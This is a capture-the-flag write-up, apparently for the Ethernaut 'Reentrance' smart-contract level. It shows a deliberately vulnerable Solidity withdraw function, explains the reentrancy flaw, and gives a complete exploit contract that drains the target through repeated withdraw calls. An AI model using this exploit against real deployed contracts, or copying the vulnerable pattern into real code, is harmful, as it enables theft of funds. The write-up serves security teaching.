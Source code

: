 ## 0x01 Task

```javascript
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
      // 首先确定是否有足够资产提币
      // 然后使用msg.sender.call.value(_amount)()发送eth
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
        // 处理完毕 修改账户
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

The goal of this level is for you to steal all the funds from the contract.

## 0x02 Solution

```
<address>.call.value()()
```

- 当发送失败时会返回 false
- 传递所有可用 Gas 供调用，不能有效防止重入（reentrancy）

使用 `msg.sender.call.value(amount)()` 传递了所有可用 Gas 供调用，也是可以成功执行递归的前提条件。

![image-20200508100804569](https://picturefac.oss-cn-hangzhou.aliyuncs.com/img/20200508100805.png)

exp:

```javascript
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}

contract exp {

    address instance_address = 0xe0216ad7f44524508a87036609c91f85ff6343bf;
    Reentrance target = Reentrance(instance_address);

    function exp() payable{}

    function donate() public payable {
        target.donate.value(msg.value)(this);
    }

    function attack() public {
        //这题有bug，不会自己回调fallback函数，要你写两次withdraw才可以
        target.withdraw(0.5 ether);
        target.withdraw(0.5 ether);
    }

    function get_balance() public view returns(uint) {
        return target.balanceOf(this);
    }

    function my_eth_bal() public view returns(uint) {
        return address(this).balance;
    }

    function ins_eth_bal() public view returns(uint) {
        return instance_address.balance;
    }

    function () public payable {
        //同理写两次
        target.withdraw(0.5 ether);
        target.withdraw(0.5 ether);
    }
}
```

先donate，再attack